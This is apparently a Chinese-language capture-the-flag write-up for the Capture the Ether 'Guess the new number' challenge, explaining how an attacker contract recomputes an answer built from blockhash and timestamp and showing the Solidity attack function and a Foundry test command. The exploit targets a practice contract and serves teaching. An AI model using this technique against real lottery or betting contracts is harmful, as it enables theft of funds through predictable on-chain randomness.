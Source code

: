 # Guess the new number

## 题目描述

[原题链接](https://capturetheether.com/challenges/lotteries/guess-the-new-number/)

原题目要求 GuessTheNewNumberChallenge 合约的 ether 余额为 0。而调用 guess 并输入答案，如果答案等于使用 blockhash 以及 timestamp 通过 hash 生成的数，即可转移 2 ether 出去。

## 运行

**安装 Foundry**

根据[Foundry 官方文档](https://getfoundry.sh/)配置好运行环境。

**运行测试**

```sh
$ cd WTF-CTF

$ forge test -C src/Capture_the_Ether/Lotteries/Guess_the_new_number -vvv
```

## 功能简述

在 GuessTheNewNumberChallenge 合约中，answer 的构造使用了当前链上的状态，包括前一个区块的 hash 以及当前 timestamp。既然answer 的构造规则是公开的，我们可以部署一个新合约 Attacker，使用新合约来计算 answer 并调用 guess，这样因为在这笔跨合约调用的 transaction 中，两个合约的环境变量 block hash 和 timestamp 都是相同的，因此能够得到相同的 answer。

这个是 Attacker 合约中 attack 的逻辑，我们先检查 msg.sender，防止被 MEV 黑吃黑了，然后我们调用 attack 时需要携带 1 ether，然后我们构造出 answer，并按照要求调用 GuessTheNewNumberChallenge 合约的 guess，然后通过 challenge.isComplete() 检查是否挑战成功，这样即使挑战失败，也不会损失 ether，最后将得到的余额返回给自己。

```solidity
    function attack(address _challenge) public payable {
        if (msg.sender != owner) revert NotOwner();
        if (msg.value != 1 ether) revert ValueErr();

        IGuessTheNewNumberChallenge challenge = IGuessTheNewNumberChallenge(_challenge);
        uint8 answer = uint8(uint(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))));
        challenge.guess{value: 1 ether}(answer);
        
        if (!challenge.isComplete()) revert GuessErr();

        payable(msg.sender).transfer(address(this).balance);        
    }
```
